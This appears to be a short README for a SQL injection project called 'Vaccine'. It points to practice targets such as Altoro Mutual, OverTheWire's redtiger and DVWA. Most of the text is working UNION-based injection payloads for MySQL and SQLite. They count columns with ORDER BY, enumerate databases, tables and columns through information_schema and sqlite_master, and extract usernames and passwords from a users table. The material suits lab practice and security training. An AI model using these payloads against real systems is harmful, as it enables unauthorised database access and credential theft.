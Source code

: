 # Vaccine

# Usage

```
export TOKEN=YOUR_COOKIE
```

# Websites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## UNION

### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```
- Get database name
```
' UNION SELECT DATABASE(), DATABASE()
```
- Get table_names
```
' UNION SELECT table_name, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT column_name, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

### SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```

